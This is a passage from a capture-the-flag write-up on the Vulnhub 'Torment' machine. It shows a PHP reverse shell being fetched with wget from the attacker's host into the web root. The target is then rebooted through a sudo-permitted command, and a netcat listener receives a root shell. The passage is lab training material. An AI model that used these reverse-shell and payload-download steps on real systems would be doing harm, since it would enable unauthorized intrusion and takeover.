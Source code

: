 Now I saved it and , lets upload our php_reverse_shell.php into this system in location /var/www/html →

```bash
patrick@TORMENT:/var/www/html$ wget http://192.168.249.128/shell.php
--2023-09-15 15:25:54--  http://192.168.249.128/shell.php
Connecting to 192.168.249.128:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 5497 (5.4K) [application/octet-stream]
Saving to: ‘shell.php’

shell.php                       100%[======================================================>]   5.37K  --.-KB/s    in 0s      

2023-09-15 15:25:54 (861 MB/s) - ‘shell.php’ saved [5497/5497]

patrick@TORMENT:/var/www/html$ ls -al
total 72
drwxrwxrwx 2 www-data www-data  4096 Sep 15 15:25 .
drwxr-xr-x 3 root     root      4096 Dec 23  2018 ..
-rwxrwxrwx 1 www-data www-data 10701 Dec 23  2018 index.html
-rw-r--r-- 1 www-data www-data    61 Dec 31  2018 secret
-rw-r--r-- 1 patrick  patrick   5497 Sep 15 15:25 shell.php
-rw-r--r-- 1 www-data www-data 39848 Jan  1  2019 torment.jpg
patrick@TORMENT:/var/www/html$ chmod +x shell.php
patrick@TORMENT:/var/www/html$
```
{: .nolineno}
{: .nolineno}

To make the apache service run as **qiu** user we have to restart the apache service but we don’t have the privileges to do so, but at the same time, we can reboot the target system as **reboot** command can be executed as **sudoer** for the user Patrick**.**

![Untitled](/Vulnhub-Files/img/Torment/Untitled%209.png)

Now after machine bootup lets load the shell.php file →

```bash
┌──(kali㉿kali)-[~/Downloads/Vulnhub/Torment]
└─$ nc -lvnp 4444
listening on [any] 4444 ...
connect to [192.168.249.128] from (UNKNOWN) [192.168.249.144] 58890
Linux TORMENT 4.9.0-8-amd64 #1 SMP Debian 4.9.130-2 (2018-10-27) x86_64 GNU/Linux
 15:37:25 up 1 min,  0 users,  load average: 1.23, 0.53, 0.19
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=0(root) gid=0(root) groups=0(root)
/bin/sh: 0: cant access tty; job control turned off
# whoami
root
# id
uid=0(root) gid=0(root) groups=0(root)
# cd /root
# ls -al
total 44
drwx------  6 root root 4096 Jan  4  2019 .
drwxr-xr-x 23 root root 4096 Jan  4  2019 ..
-rw-------  1 root root   56 Jan  4  2019 .bash_history
-rw-r--r--  1 root root  570 Jan 31  2010 .bashrc
drwx------  2 root root 4096 Dec 23  2018 .cache
drwx------  5 root root 4096 Dec 31  2018 .config
drwxr-xr-x  3 root root 4096 Dec 31  2018 .local
```